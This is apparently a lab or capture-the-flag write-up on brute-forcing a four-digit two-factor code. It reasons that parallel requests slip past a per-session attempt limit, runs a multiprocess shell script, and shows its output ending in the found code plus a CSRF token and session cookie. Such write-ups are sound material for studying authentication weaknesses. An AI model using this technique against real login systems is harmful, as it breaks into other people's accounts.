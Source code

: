 ## Foothold

To bruteforce the 4 digits 2FA code the script must to have the whole cycle starting from the GET request in the `/login` view like the image above.

In this way I need automatizate the process to check a 4 digits value between (0000 - 9999) thats are 10000 values. And I have 2 attemps before login again, So with a random number generator there is 2/10000 possibility to hit the correct code. That means a probability of 0.2% . It does not sound like much but only think that there is a chance that if I made 5000 request, one of them hit the correct answers!, 5000 request can be done in a few minutes. 

But this is true if we do the request secuencially, but this would be slow to achieve, so instead only try 1 guess with a probability 0.1% but with multiprocess requests

> The problem in paralell requests is that when the requests are done in paralell the server not allow the 2 attemps, maybe internally have a counter per user instead per session cookie.


## Script

I wrote the script  `bruteoForce2ALimitGuess.sh` . which does the whole requests cycle mentioned above in `check_2FA()` , this function is execute in 100 multiprocess chunks with a total of 30000 iterations (those values were arbitrary, you can play with it).

I redirect the script STDOUT to the `output.txt` file. In this way I can store the total data and analize it. In this case in another shell I use `tail`  to see the last lineas and use `-f`  switch  to interactive see each update.


```shell
$ ./bruteForece2ALimitGuess.sh > output.txt 
```

```shell
$ tail output.txt -f 
...SNIP...
00110 | 200 | time:0.716482 | bytes:2989 | words:146 | lines:58 | guess:5803                                                                                00132 | 200 | time:0.722079 | bytes:3230 | words:151 | lines:63 | guess:5663                                                                                00140 | 200 | time:0.706397 | bytes:3230 | words:151 | lines:63 | guess:7104                                                                                00136 | 200 | time:0.735682 | bytes:2989 | words:146 | lines:58 | guess:7708                                                                                00113 | 200 | time:0.706893 | bytes:2989 | words:146 | lines:58 | guess:1197                                                                                00108 | 200 | time:0.745938 | bytes:3230 | words:151 | lines:63 | guess:2582                                                                                00142 | 200 | time:0.748699 | bytes:3230 | words:151 | lines:63 | guess:9076                                                                                00127 | 200 | time:0.730441 | bytes:3230 | words:151 | lines:63 | guess:9141                                                                                00129 | 200 | time:0.727770 | bytes:2989 | words:146 | lines:58 | guess:8992                                                                                00133 | 200 | time:0.743757 | bytes:2989 | words:146 | lines:58 | guess:3856                                                                                00125 | 200 | time:0.737743 | bytes:2989 | words:146 | lines:58 | guess:8093                                                                                00137 | 302 | time:0.892812 | bytes:1 | words:0 | lines:1 | guess:1260                                                                                      Found it! use: 1260                                                                                                                                         csrf=WrF6jhOicFWNd14SFlVkodxRu0p6kQFf | session my1VJLuK2cfXRBBs941gGYwTvzlYCcAw    
```
